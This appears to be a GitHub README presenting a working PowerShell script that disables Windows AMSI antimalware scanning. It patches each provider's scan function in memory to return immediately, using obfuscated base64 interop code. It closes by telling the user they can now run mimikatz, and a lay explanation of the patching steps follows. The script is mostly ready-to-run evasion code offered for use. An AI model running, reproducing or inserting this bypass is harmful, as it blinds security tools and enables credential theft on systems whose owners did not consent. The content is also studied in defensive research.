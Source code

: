## Overview

This repository houses a PowerShell script engineered to circumvent the AMSI. AMSI serves as a security feature, allowing integration with antivirus and antimalware products to bolster threat protection. 

## Script
```pwsh
$g = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw0KdXNpbmcgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzOw0KcHVibGljIGNsYXNzIEFwaXMgew0KICBbRGxsSW1wb3J0KCJrZXJuZWwzMiIpXQ0KICBwdWJsaWMgc3RhdGljIGV4dGVybiBib29sIFZpcnR1YWxQcm90ZWN0KEludFB0ciBscEFkZHJlc3MsIFVJbnRQdHIgZHdTaXplLCB1aW50IGZsTmV3UHJvdGVjdCwgb3V0IHVpbnQgbHBmbE9sZFByb3RlY3QpOw0KICBbRGxsSW1wb3J0KCJhbXNpIildDQogIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBBbXNpSW5pdGlhbGl6ZShzdHJpbmcgYXBwTmFtZSwgb3V0IEludDY0IGNvbnRleHQpOw0KfQ=='))

Add-Type $g

$r = [Convert]::FromBase64String('uLgA/wDD')
$y = 0; $i = 0
$SIZE_OF_PTR = 8
[Int64]$z = 0

# Initializing AMSI
try {
    [Apis]::AmsiInitialize("MyScanner", [ref]$z)
    Write-Host "AMSI initialized successfully. Context: $z"

    # Retrieve pointers for AMSI providers
    $b = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$z, 16)
    Write-Host "Providers pointer: $b"

    $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64)
    Write-Host "Initial provider pointer: $c"
} catch {
    Write-Host "Error during AMSI initialization or pointer retrieval: $_"
    exit 1
}

# Iterate through AMSI providers
try {
    while ($c -ne 0) {
        $d = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$c)
        $e = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$d, 24)
        Write-Host "[$i] Provider's scan function found at address: $e"

        if (![Apis]::VirtualProtect($e, [uint32]6, 0x40, [ref]$y)) {
            throw "Failed to change memory protection at address: $e"
        }

        [System.Runtime.InteropServices.Marshal]::Copy($r, 0, [IntPtr]$e, 6)
        Write-Host "[$i] Scan function patched successfully."

        $i++
        $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64 + ($i * $SIZE_OF_PTR))
    }
    Write-Host "Patching completed successfully."
    Write-Host "You can Invoke mimikatz now (: "
} catch {
    Write-Host "Error during provider iteration and patching: $_"
    exit 1
}
```



## Script Approach
**Initializing AMSI and Retrieving Pointers**: 


The script starts by setting up AMSI and getting pointers, which are like signposts pointing to important parts of AMSI.

**Finding Scan Functions**: 


It then looks through these pointers to find where AMSI does its scanning work, kind of like finding where a detective does their investigation.

**Patching Scan Functions with RET 0**: 


When it finds these scanning spots, the script changes them so that when they're called, they immediately stop and say "everything's okay." This makes the scans skip right over any potentially harmful stuff.

**Changing Memory Access**: 


Before making these changes, the script adjusts the way the computer sees these scanning spots so it can make changes to them, kind of like getting permission to edit a document.

**Covering All Bases**: 


The script repeats these steps for every way AMSI does its scanning, ensuring that no matter how AMSI checks for bad stuff, the script can sneak past it.



## Credits
The original script credited to @maorkor ,and was introduced at BlackHat Asia 2022
 [@maorkor](https://x.com/maorkor)
